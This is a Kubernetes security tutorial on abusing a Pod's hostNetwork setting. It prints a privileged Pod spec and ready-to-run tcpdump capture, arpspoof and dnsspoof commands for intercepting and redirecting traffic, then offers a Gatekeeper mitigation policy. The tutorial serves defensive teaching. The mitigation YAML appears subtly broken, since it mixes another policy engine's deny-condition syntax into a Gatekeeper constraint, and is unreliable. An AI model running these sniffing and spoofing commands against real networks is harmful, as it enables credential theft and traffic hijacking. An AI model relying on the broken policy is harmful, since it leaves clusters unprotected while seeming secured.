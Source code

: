 ### Attack Example: Host Network Namespace Exploitation

In this scenario, we will explore how an attacker can exploit the `hostNetwork: true` setting in a Pod to gain access to the host's network interfaces and potentially interfere with network traffic.

#### Pod YAML Definition

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: badpod03
spec:
  hostNetwork: true
  containers:
  - name: container01
    image: busybox
    command: ["sh", "-c", "sleep 3600"]
```

#### Attack Scenario

1. **Pod Creation**

   The attacker creates the Pod `badpod03` with `hostNetwork: true`, allowing the container to access the host's network interfaces and traffic.

2. **Enumerating Network Interfaces**

   Once the Pod is running, the attacker can execute commands within the container to list all network interfaces on the host.

   ```sh
   kubectl exec -it badpod03 -- sh
   ifconfig -a
   ```

   This command will display all network interfaces available on the host.

3. **Network Sniffing**

   The attacker can use network sniffing tools to capture network traffic on the host's interfaces.

   - **Installing tcpdump**: First, install `tcpdump` inside the container.

     ```sh
     apk update && apk add tcpdump
     ```

   - **Capturing Network Traffic**: Start capturing traffic on a specific interface (e.g., `eth0`).

     ```sh
     tcpdump -i eth0 -w /tmp/capture.pcap
     ```

     This command captures all packets on the `eth0` interface and writes them to a file named `capture.pcap`.

4. **Man-in-the-Middle (MitM) Attack**

   The attacker can perform a Man-in-the-Middle (MitM) attack by redirecting network traffic.

   - **ARP Spoofing**: Use `arpspoof` to redirect traffic between a victim machine (e.g., `192.168.1.10`) and the gateway (e.g., `192.168.1.1`).

     ```sh
     arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
     arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
     ```

     This command sends falsified ARP messages to associate the attacker's MAC address with the IP addresses of the victim and gateway, enabling interception of their traffic.

5. **DNS Spoofing**

   The attacker can also perform DNS spoofing to redirect DNS queries to malicious IP addresses.

   - **Running dnsspoof**: Create a file `hosts.txt` with fake DNS records.

     ```sh
     echo "192.168.1.50 example.com" > hosts.txt
     dnsspoof -i eth0 -f hosts.txt
     ```

     This command responds to DNS queries for `example.com` with the IP address `192.168.1.50`, which could be a malicious server controlled by the attacker.

#### Impact of the Attack

- **Data Interception**: The attacker can capture and analyze network traffic, potentially extracting sensitive information such as passwords and session tokens.
- **Traffic Redirection**: DNS spoofing and ARP spoofing can redirect legitimate traffic to malicious servers, enabling phishing and malware distribution.
- **Denial of Service**: By disrupting network traffic, the attacker can cause denial of service for legitimate users.

### Mitigation

To mitigate these risks, ensure that Pods do not use the `hostNetwork` setting unless absolutely necessary. Implement policies to enforce this.

#### Gatekeeper Policy Example

```yaml
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sNoHostNamespaces
metadata:
  name: disallow-host-network
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  validation:
    message: "Using hostNetwork is disallowed."
    deny:
      conditions:
        any:
          - key: "spec.hostNetwork"
            operator: In
            values: [true]
```

### Expected Error Message

If the policy disallows `hostNetwork`, attempting to create `badpod03` will result in an error:

```
Error from server (Forbidden): error when creating "badpod03.yaml": admission webhook "validation.gatekeeper.sh" denied the request: Using hostNetwork is disallowed.
```

### Summary

Disallowing `hostNetwork` in Kubernetes pods prevents containers from accessing and interfering with the host's network interfaces and traffic, thereby enhancing the security and integrity of the network environment. Use policies to enforce these restrictions and ensure a secure cluster environment.